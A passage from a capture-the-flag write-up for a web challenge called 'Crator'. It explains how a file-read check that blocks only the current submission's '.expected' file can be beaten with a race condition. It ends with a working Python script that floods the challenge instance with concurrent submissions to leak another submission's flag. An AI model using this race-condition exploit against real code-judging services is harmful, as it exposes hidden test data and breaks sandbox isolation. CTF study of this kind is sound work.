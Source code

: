 We can then put all of our logic for the flag test case into an else clause. Once this initial test passes, the flag should be written to `/tmp/{SUBMISSION_ID}.expected` but we cannot read this because of the following line:

```python
if  file.endswith(submission_id  +  ".expected"):
	raise  RuntimeError("Nein")
```

I found it interesting that it doesn't just block us reading all files appended with `.expected` and instead checks the current `submission_id` also. This means that other submission threads could read this file and thus we can solve this using a race condition.

The rest of the solution is implementation details which I won't delve into too much but the general idea is to instantiate a number of submissions which will all try to read the expected value of another process and print it. Since the output of our first test case isn't hidden, we can use this to leak it. Below is my solution script.

```python
import requests
import concurrent.futures

num = 34
data = {
    "code": f"""s = ""
x = input()
while True:
    if x == "Welcome to Crator":
        print(x)
        break
    x = open('/tmp/{num}.expected').read()
    if len(x) > 0:
        s = x
        print(s.strip())
        break"""
}

data2 = {"code": f"""# import math # jk, you can't import

for _ in range(100):
    for i in range({num}, {num+10}):
        try:
            x = open(f"/tmp/{i}.expected").read()
            if len(x) > 0:
                print(x)
        except:
            pass"""}

cookies = {
    "session": "eyJ1c2VyX2lkIjoyLCJ1c2VybmFtZSI6IngifQ.ZsH2aQ.g3JTvNLbop3sPpV4TyuLZ2vAmdQ"
}

def send_request(data):
    r = requests.post("https://crator-cf849282e9c800ca.instancer.idek.team/submit/helloinput", data=data, cookies=cookies)
    return r

with concurrent.futures.ThreadPoolExecutor(max_workers=11) as executor:
    futures = [executor.submit(send_request, data) for _ in range(10)]
    futures.append(executor.submit(send_request, data2))
    
    for future in concurrent.futures.as_completed(futures):
        response = future.result()
        print(response.text)
```
